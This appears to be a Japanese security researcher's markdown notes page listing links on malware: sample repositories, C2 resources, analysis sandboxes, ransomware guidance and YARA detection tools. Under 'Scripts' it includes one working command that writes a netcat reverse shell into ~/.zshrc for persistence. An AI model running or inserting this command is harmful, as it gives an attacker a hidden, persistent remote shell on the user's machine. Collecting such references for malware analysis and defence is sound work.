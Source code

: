 # マルウェア

## C2

https://howto.thec2matrix.com/

## 検体の入手

[マルウェア検体を入手する方法](https://www.japan-secure.com/entry/blog-entry-198.html)

[eicar test file](https://www.eicar.org/?page_id=3950)

[SourceFinder: Finding Malware Source-Code from Publicly Available Repositories in GitHub](https://www.usenix.org/system/files/raid20-rokon.pdf)

https://virusshare.com/

https://urlhaus.abuse.ch/

https://github.com/topics/malware-samples

https://github.com/ytisf/theZoo

https://github.com/rshipp/awesome-malware-analysis

https://github.com/vxunderground/MalwareSourceCode

https://github.com/offensive-security/exploitdb

## 検体

- rootkit
  - https://github.com/enzolovesbacon/inficere
- backDoor
  - https://github.com/mosca1337/OSX-Peristant-BackDoor

## マルウェア解析

- [Free Automated Malware Analysis Sandboxes and Services](https://zeltser.com/automated-malware-analysis/)
  - https://any.run/
- https://www.sans.org/blog/how-you-can-start-learning-malware-analysis/
- [マルウェア解析に必要な素養](https://hackmd.io/@K-atc/S1kLEr5x)
- ブログ
  - https://www.mbsd.jp/research/malware/#contents
  - [東京五輪に関係する日本語のファイル名を持つマルウェア(ワイパー)の解析](https://www.mbsd.jp/research/20210721/blog/)

## Ransomeware

[Ransomware Attacks and Types – How Encryption Trojans Differ](https://www.kaspersky.com/resource-center/threats/ransomware-attacks-and-types)

[ランサムウェア攻撃で悪用された正規ツールを解説](https://blog.trendmicro.co.jp/archives/28681)

https://www.cisa.gov/stopransomware

[侵入型ランサムウェア攻撃を受けたら読むFAQ](https://www.jpcert.or.jp/magazine/security/ransom-faq.html)

## 脅威データベース

https://www.trendmicro.com/vinfo/jp/threat-encyclopedia/

https://urlhaus.abuse.ch/

## マルウェア検知ツール

https://github.com/VirusTotal/yara

https://blog.malwarebytes.com/security-world/technology/2017/09/explained-yara-rules/

https://github.com/hasherezade/hollows_hunter

## VirusTotal

https://www.virustotal.com/gui/

https://keepmealive.jp/about-virustotal/

## マルウェア、ウイルス一覧

- Emotet
  - https://www.ipa.go.jp/security/announce/20191202.html
  - https://github.com/JPCERTCC/EmoCheck
- Phoenix Cryptolocker
  - https://cloudsek.com/threatintelligence/phoenix-cryptolocker-ransomware-threat-intel-advisory/

## Scripts

```bash
# zshrc で永続化
echo '(rm ./pipe; mkfifo ./pipe; cat ./pipe | /bin/sh -i 2>&1|nc 192.168.205.3 1337 > ./pipe &)' >> ~/.zshrc

```

## YARA

https://github.com/JPCERTCC/jpcert-yara

## Development

https://github.com/redcode-labs/Coldfire

## Tools

https://github.com/sweetsoftware/Ares

## 参考

- [Goで書かれたマルウェアが増加傾向--APTと犯罪グループの両方が利用](https://japan.zdnet.com/article/35167172/)
- [ストップ！ ランサムウェア　ランサムウェア特設ページ - NISC](https://security-portal.nisc.go.jp/stopransomware/)
- [Ransomware as a Service Innovation Curve](https://www.coveware.com/blog/2022/1/26/ransomware-as-a-service-innovation-curve)
